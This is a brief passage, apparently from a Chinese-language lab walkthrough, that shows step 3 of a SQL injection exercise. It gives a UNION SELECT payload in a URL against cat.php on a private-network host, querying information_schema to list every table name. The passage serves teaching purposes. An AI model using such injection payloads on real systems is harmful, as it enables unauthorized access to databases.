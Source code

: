     ![](img/20181102-30.png)

step 3. 从其他表检索信息

输出所有数据库中所有表名，设置url为 `http://192.168.163.3/cat.php?id=2 UNION SELECT 1, table_name,3,4 FROM information_schema.columns`

![](img/20181102-31.png)
    
